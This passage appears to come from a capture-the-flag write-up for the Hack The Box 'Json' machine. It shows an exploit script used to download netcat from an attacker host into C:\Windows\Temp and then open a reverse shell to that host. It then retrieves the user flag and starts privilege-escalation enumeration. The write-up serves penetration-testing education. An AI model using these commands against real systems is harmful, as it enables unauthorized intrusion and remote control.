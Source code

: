 ### Spawning a Shell

To spawn a shell wth this, we can upload [netcat executable for windows](https://eternallybored.org/misc/netcat/) then execute netcat exe with the python script with powershell or cmd execution.
<br>
Let's first setup http server that contains the netcat executable. I used python3 http.server module. Execute the following.
```bash
python3 json_exploit.py
```
<br>
And when the python script asks for its command, enter the following:
```bash
powershell.exe, /c invoke-webrequest http://10.10.14.87:8000/nc64.exe -outfile c:\\Windows\\Temp\\nc.exe
```

![17](/writeups/htb/boxes/images/json_17.png)
<br>
After the netcat is uploaded, enter the following to the python script:
```Bash
powershell.exe, /c c:\\Windows\\Temp\\nc.exe 10.10.14.87 4444 -e "cmd.exe'
```
 NOTE:
If "powershell.exe" is used immediately, the server doesn't spawn a shell.

<br>
We successfuly spawned a shell with "userpool" as our user!

![18](/writeups/htb/boxes/images/json_18.png# big)
<br>

## User Flag
We can just go to ```C:\Users\userpool\Desktop\``` to get our user flag.

![19](/writeups/htb/boxes/images/json_19.png# big)

## Privilege Escalation
<br>

There are two ways of getting root:

## Method 1

### Enumeration

We can check the privileges of our user. It's stated that SeImpersonatePrivilege is enabled thus we can use an exploit that uses this setting to escalate to NT AUTHORITY\SYSTEM
To check privileges:
```cmd
whoami /priv
```
